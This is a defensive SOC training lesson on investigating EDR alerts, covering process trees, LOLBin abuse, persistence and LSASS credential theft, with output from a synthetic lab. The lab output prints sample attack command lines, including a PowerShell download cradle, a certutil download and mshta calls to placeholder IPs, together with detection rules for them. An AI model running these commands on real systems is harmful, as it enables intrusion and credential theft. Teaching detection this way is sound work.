

# 04. Investigating an EDR alert: process trees, LOLBins, persistence, LSASS

> **Module:** 07 · EDR / XDR / MDR · **Week:** 10 (and the lab in week 11) · **Time:** ~6 hours
> **You will:** read a process tree, spot parent-child anomalies, recognize LOLBin abuse, persistence and credential access, and run a lab that does the same automatically.
> **Certification map:** SC-200 (investigate incidents); Security+ domain 4; MITRE ATT&CK techniques T1059.001, T1105, T1218, T1543.003, T1003.001, T1566.001.
> **Lab:** [`lab/`](lab/) (offline, synthetic data).

---

## 1. Why it matters in a SOC / cloud-security job

This is the daily work of a Level 1 and Level 2 analyst: an alert arrives, and you must decide in minutes: **real attack, or normal admin work?**

Real situations:

- "Suspicious PowerShell" fires 40 times a day. Most are IT scripts. One is not. You must tell the difference quickly.
- An alert says "LSASS access". Defender, backup agents and some monitoring tools do this legitimately. A random program in `C:\Users\Public` does not.
- A manager asks: "Is this one infected laptop or a campaign?" You answer from the process tree and a search across hosts.

---

## 2. Understand it

### 2.1 What a process tree is

Every process has a **parent** (the process that started it). Draw parents above children and you get a **process tree**. The tree is the *story* of what ran and why.



Normal trees are boring and predictable: `explorer.exe → winword.exe`. Attack trees break the pattern: `winword.exe → powershell.exe → certutil.exe`.

### 2.2 The five-step investigation

1. **Read the alert.** Host, user, time, rule name, ATT&CK technique.
2. **Open the tree.** Walk *up* to find the origin (email attachment? browser? service?) and *down* to find what it started.
3. **Read the command lines.** Decode base64. Look at paths (`\Users\Public\`, `\Temp\`, `\ProgramData\` are user-writable and common for malware).
4. **Check the side effects:** network connections (Sysmon 3, 22), file writes (11), registry (13), services (7045), tasks (4698), access to other processes (10).
5. **Decide:** true positive, benign true positive (real behavior, approved), or false positive. Then scope and respond.

Always ask the **legitimate explanation** question too: is there an approved script, a deployment tool, a pen test or an admin task that looks exactly like this? Check the change calendar and ask the owner. (The ATT&CK playbooks in the library list "legitimate explanations to verify" for each technique. This habit is worth copying.)

### 2.3 Parent-child anomalies to know

| Parent | Child | Why suspicious | ATT&CK |
|---|---|---|---|
| `winword.exe`, `excel.exe`, `outlook.exe` | `powershell.exe`, `cmd.exe`, `wscript.exe`, `mshta.exe` | Office documents do not need shells. Typical macro attack | T1566.001, T1059 |
| `w3wp.exe` (IIS) or a web server | `cmd.exe`, `powershell.exe` | A web shell or exploited web app | T1505.003 |
| `services.exe` | A binary in `\Users\` or `\Temp\` | A service pointing to a user-writable path | T1543.003 |
| `svchost.exe` started by anything but `services.exe` | n/a | Fake svchost | T1036 |
| `explorer.exe` | `rundll32.exe` with a DLL from AppData | User ran a DLL payload | T1218.011 |
| `powershell.exe` | `certutil.exe`, `bitsadmin.exe` | Download using a trusted tool | T1105 |

### 2.4 LOLBins: look at the arguments

A LOLBin (living-off-the-land binary) is a legitimate tool used for the wrong purpose. The **name** is never the signal. The **arguments and context** are.

| Binary | Normal use | Abuse pattern the lab checks |
|---|---|---|
| `certutil.exe` | Certificate and hash tasks (`-hashfile`) | `-urlcache` / `-verifyctl` with a URL: **downloads a file** |
| `rundll32.exe` | Opens Control Panel applets from System32 | A DLL loaded from `\Users\`, `\ProgramData\`, `\Temp\`, or `javascript:` in the arguments |
| `mshta.exe` | Rarely used by normal software today | A URL or `javascript:`/`vbscript:` in the arguments |
| `powershell.exe` | Admin scripts, management agents | Office parent + encoded command; hidden window; download cradle |

Notice the lab's **benign controls**: `certutil -hashfile`, `rundll32 ... shell32.dll,Control_RunDLL`, a management agent running `-EncodedCommand`. They share a binary name with the attack, but do not alert. A good rule is **precise**: it checks name *and* arguments *and* parent.

### 2.4b Why encoded PowerShell alone is not enough

Many legitimate tools (deployment and monitoring agents) use `-EncodedCommand`. The lab's first rule needs **Office as parent** too. In production you often keep a second, *low-severity* rule for "encoded PowerShell from anywhere", used for hunting and for scoring.

### 2.5 Persistence

**Persistence** means the attacker's code survives a reboot or a killed process. Common places:

| Place | Event to watch |
|---|---|
| Windows **service** (T1543.003) | System 7045 / Security 4697; `sc.exe create` in process events |
| **Scheduled task** (T1053.005) | Security 4698; `schtasks.exe /create` |
| **Run keys** (T1547.001) | Sysmon 12 / 13 on `...\CurrentVersion\Run` |
| **WMI subscription** (T1546.003) | Sysmon 19, 20, 21 |
| Startup folder | Sysmon 11 file create |

The lab rule flags a service whose file path is in a user-writable folder, or whose command contains `cmd.exe /c` or `powershell`. A vendor service in `C:\Program Files\...` does not alert.

### 2.6 Credential access: LSASS

**LSASS** (`lsass.exe`, Local Security Authority Subsystem Service) keeps logon secrets in memory so Windows can do single sign-on. Attackers read that memory (T1003.001) to steal credentials, then move to other hosts.

Detection idea (Sysmon 10): target is `lsass.exe`, the granted access includes the **memory-read right (0x0010)**, and the source is **not** an expected system or security process.

Two traps the lab tests:

1. **Check the full path, not the name.** A file called `svchost.exe` in `C:\Users\Public\` must still alert. The allow-list holds *paths*.
2. **Check the access mask.** `0x1000` alone (query limited information) cannot read memory and is common. Skipping it reduces noise.

Preventive controls (not only detection): **LSA protection (RunAsPPL)**, **Credential Guard**, and the Defender **attack surface reduction (ASR)** rule that blocks credential stealing from LSASS. ASR also has a rule to block Office apps from creating child processes, which would have stopped this lab's first step.

---

## 3. From DBA to security

> **From DBA to security.**
> - **Process tree** = **session tree / blocking tree**. You walk the chain `V$SESSION` blocker → waiter to find the root. Here you walk parent → child to find the root.
> - **Baselining** = **AWR baselines**. You know a normal batch load; you spot the odd one. Security does the same: "Word never starts PowerShell here."
> - **Benign admin must not alert** = **tuning a monitoring alert** so a nightly job does not page you every night. A rule that cries wolf gets ignored.
> - **LSASS** protects secrets in memory, like the **wallet / TDE master key** in Oracle: who can read it is the whole security of the system.

---

## 4. Hands-on: the lab

The lab builds process trees from synthetic Sysmon-like events, applies four rules, recommends a response and simulates "isolate host". Files:

| File | Role |
|---|---|
| `lab/sample_events.py` | Synthetic events: an attack chain, busy-but-benign admin activity, a quiet DC |
| `lab/edr_analyzer.py` | Trees, four rules, scoring, `SimulatedEDR` |
| `lab/demo.py` | Prints trees, alerts, response, audit log |
| `lab/test_edr_analyzer.py` | 24 tests, including cases that must **not** alert |

Run the tests and the demo from the repository root:

```bash
.venv/Scripts/python -m pytest cybersecurity-track/07-edr-xdr-mdr
.venv/Scripts/python cybersecurity-track/07-edr-xdr-mdr/lab/demo.py
```

Real output of the demo:

```text
=== PROCESS TREES ===
[SRV-DC01]
  services.exe [700] services.exe
[WS-ACCT-07]
  explorer.exe [4120] C:\Windows\Explorer.EXE
      +-- winword.exe [5200] "WINWORD.EXE" "C:\Users\mlopez\Downloads\invoice_Nov.docm"
          +-- powershell.exe [6032] powershell.exe -NoP -W Hidden -Enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoA...
              +-- certutil.exe [6100] certutil.exe -urlcache -split -f http://203.0.113.50/update.bin C:\...
              +-- rundll32.exe [6200] rundll32.exe C:\Users\Public\update.dll,Run
              +-- mshta.exe [6300] mshta.exe http://198.51.100.20/payload.hta
[WS-IT-02]
  explorer.exe [900] C:\Windows\Explorer.EXE
      +-- powershell.exe [1000] powershell.exe -ExecutionPolicy RemoteSigned -File C:\Scripts\inven...
      +-- certutil.exe [1200] certutil.exe -hashfile C:\Tools\installer.msi SHA256
      +-- rundll32.exe [1300] rundll32.exe C:\Windows\System32\shell32.dll,Control_RunDLL inetcpl...
  powershell.exe [1100] powershell.exe -NonInteractive -EncodedCommand RwBlAHQALQBTAGUAcgB2...

=== ALERTS ===
host         rule     sev       title
WS-ACCT-07   EDR-001  high      Office app spawned PowerShell with an encoded command
             evidence: parent=winword.exe decoded='IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.50/stage2.ps1')'   ATT&CK: T1566.001 / T1059.001
WS-ACCT-07   EDR-002  medium    LOLBin abuse: certutil downloads a file from a URL
             evidence: cmd=certutil.exe -urlcache -split -f http://203.0.113.50/update.bin C:\Users\Public\update.dll   ATT&CK: T1105 / T1218
WS-ACCT-07   EDR-002  medium    LOLBin abuse: rundll32 loads code from a user-writable path or script
             evidence: cmd=rundll32.exe C:\Users\Public\update.dll,Run   ATT&CK: T1105 / T1218
WS-ACCT-07   EDR-002  medium    LOLBin abuse: mshta runs remote or script content
             evidence: cmd=mshta.exe http://198.51.100.20/payload.hta   ATT&CK: T1105 / T1218
WS-ACCT-07   EDR-003  high      Service installed from a suspicious location
             evidence: service=WinUpdateHelper file=C:\ProgramData\upd\svc.exe   ATT&CK: T1543.003
WS-ACCT-07   EDR-004  critical  Non-system process read LSASS memory
             evidence: source=C:\Users\Public\procx.exe access=0x1010   ATT&CK: T1003.001

=== RECOMMENDED RESPONSE ===
WS-ACCT-07   score=100  action=isolate_host  rules=EDR-001,EDR-002,EDR-003,EDR-004
   -> ISOLATED WS-ACCT-07 (simulated: only the EDR channel stays open)

=== HOSTS WITH NO ALERT (benign activity must stay quiet) ===
SRV-DC01: no alerts
WS-IT-02: no alerts

=== AUDIT LOG ===
ISOLATED WS-ACCT-07 (simulated: only the EDR channel stays open)
```

### How to read this output

1. The **tree** for `WS-ACCT-07` shows the story: desktop → Word → PowerShell → three LOLBins. The parent of PowerShell is Word. That is the first red flag.
2. The **encoded command decodes** to a download cradle. (It is harmless text in this lab.)
3. The **service** and **LSASS** alerts are not children in the tree. They come from other event types. This is why you correlate by **host and time**, not only by tree.
4. **`WS-IT-02` has real admin activity**, including an encoded PowerShell command from a management agent and Defender reading LSASS. It produced **zero alerts**. That is the goal.
5. The recommended action is **isolate_host** with score 100. In the lab the isolation only flips an in-memory flag.

### Break it yourself

Predict first, then run:

1. In `sample_events.py`, change the LSASS event's `image` to `C:\\Windows\\System32\\svchost.exe`. Will the alert disappear? (Yes, because that path is on the allow-list. This shows why allow-lists on paths are powerful *and* dangerous: an attacker who can write to System32 already owns the machine.)
2. Change `granted_access` to `"0x1000"`. (No alert: no memory-read right.)
3. Rename the parent of PowerShell to `explorer.exe`. Which rules still fire? (EDR-001 stops; the others stay.)
4. Add a fifth rule: Run-key persistence from Sysmon event 13. Write the test first.

### Optional, with real tools (own VM only)

- Install Sysmon (lesson 02), start `winword.exe` normally, and look at event 1 and its `ParentImage`.
- Run one **Atomic Red Team** test for T1059.001 on a disposable VM and find the event in the log.

---

## 5. Practice platforms

- TryHackMe: **SOC Level 1** path (alerts, endpoint investigation, Sysmon rooms); **SOC Level 2** for deeper incident work.
- HTB Academy **SOC Analyst** path; HTB Labs **Sherlocks** (Windows endpoint cases).
- Library: ATT&CK playbooks (T1566.001, T1059.001, T1003.001, T1543.003) give a portable detection pattern, entity correlation and legitimate explanations for each.

---

## 6. Three realistic scenarios

**Scenario 1: "Office spawned PowerShell" at 09:03.**
*What happened:* this lab's chain. *Investigate:* open the email that delivered `invoice_Nov.docm`; decode the command; look at the outbound connection (Sysmon 3). Search all hosts for the same URL and file name. *Do:* isolate, kill the process tree, block the IP, remove the service, reset the user's credentials (LSASS was read), and tell mail admins to purge the message.

**Scenario 2: IT admin runs certutil.**
*What happened:* an alert on `certutil.exe`. *Investigate:* the arguments are `-hashfile ... SHA256`. No URL. Parent is a console started by an admin account on an admin workstation. *Decision:* benign. *Do:* close, and tune the rule to look at arguments (the lab already does).

**Scenario 3: LSASS alert from a monitoring product.**
*What happened:* a new monitoring tool reads LSASS. *Investigate:* check the full path, the signer, the vendor's documentation and whether the tool was just deployed (change record). *Do:* if confirmed, allow-list the full path and signer; ask the vendor why it needs the access; never allow-list by name only.

---

## 7. Common mistakes

1. Judging by the binary name alone ("certutil = bad"). Read the arguments and the parent.
2. Allow-listing a **name** instead of a full path and signer.
3. Stopping at the first alert. Persistence and credential theft may sit in separate events.
4. Forgetting to **decode** base64.
5. Not checking for a legitimate explanation, then escalating admin work as an attack (or the reverse).
6. Killing the process but missing the service that restarts it.
7. Not resetting credentials after an LSASS read.
8. Not searching other hosts for the same indicators.

---

## 8. Interview questions

<details><summary><b>Q1. What is a process tree and why is it useful?</b></summary>A parent-to-child diagram of processes. It shows what started what, so you can find the origin of an attack and everything it spawned.</details>

<details><summary><b>Q2. Why is "Word spawns PowerShell" suspicious?</b></summary>Documents do not need shells. It is the typical result of a malicious macro or exploit, mapped to ATT&CK T1566.001 and T1059.001. ASR rules can block Office child processes.</details>

<details><summary><b>Q3. What is a LOLBin? How do you detect abuse without blocking admins?</b></summary>A legitimate OS tool abused by attackers. Detect by arguments, parent and path, not by name. For example certutil with a URL, rundll32 loading a DLL from a user-writable folder.</details>

<details><summary><b>Q4. How do you detect LSASS credential dumping?</b></summary>Sysmon event 10 with target lsass.exe, an access mask containing memory read (0x0010), and a source that is not in an allow-list of full paths. Prevent with LSA protection, Credential Guard and the ASR rule.</details>

<details><summary><b>Q5. Give four persistence mechanisms and how to see them.</b></summary>Service (7045), scheduled task (4698), Run key (Sysmon 13), WMI subscription (Sysmon 19-21). Startup folder (Sysmon 11).</details>

<details><summary><b>Q6. An alert says encoded PowerShell. How do you decide if it is malicious?</b></summary>Decode it. Check the parent (Office vs a management agent), user, host role, network activity, and whether a change record exists. Decoded content with download cradles or credential theft is bad.</details>

<details><summary><b>Q7. What is the difference between a true positive and a benign true positive?</b></summary>Both are real detections. A benign true positive is real behavior that is approved (a pen test, an admin tool). You still document it and may tune.</details>

<details><summary><b>Q8. Why allow-list by path and signer instead of file name?</b></summary>A name is easy to fake. Attackers name malware `svchost.exe`. A full path in a protected folder, plus a valid signature, is much harder to fake.</details>

<details><summary><b>Q9. After confirming Office-spawned PowerShell, what do you do?</b></summary>Isolate (workstation), kill the tree, scope by hunting the same hash/URL/command, remove persistence, reset credentials, purge the email, add detections, write the timeline.</details>

<details><summary><b>Q10. Why do services and LSASS alerts not appear in the process tree?</b></summary>They come from different event types (service install, process access), not from process creation. Correlate by host, user and time.</details>

<details><summary><b>Q11. How would you reduce false positives on rule EDR-002?</b></summary>Check the arguments and the paths, allow known software deployment sources by signer and full path, and review the rule weekly with real data.</details>

<details><summary><b>Q12. How does the lab decide to isolate?</b></summary>Each alert adds points (critical 60, high 50, medium 35). Three or more different rules add a bonus. Score 80 or more recommends isolation; 40 to 79 recommends investigation. Protected hosts need approval.</details>

---

## 9. Checklist

- [ ] I ran the tests (24 passed) and the demo.
- [ ] I can explain each of the four rules and one false positive for each.
- [ ] I can read a process tree and name the red-flag parent-child pairs.
- [ ] I changed one thing in the sample data and predicted the result.
- [ ] I know three preventive controls for LSASS theft.

## 10. References

- MITRE ATT&CK: T1059.001, T1105, T1218, T1543.003, T1003.001, T1566.001 (https://attack.mitre.org/)
- Microsoft Learn: attack surface reduction rules reference: https://learn.microsoft.com/defender-endpoint/attack-surface-reduction-rules-reference
- Microsoft Learn: configure added LSA protection: https://learn.microsoft.com/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection
- LOLBAS project (list of living-off-the-land binaries): https://lolbas-project.github.io/

Previous: [03](03-response-actions-and-products.md) · Next: [05. XDR](05-xdr-cross-domain-correlation.md)
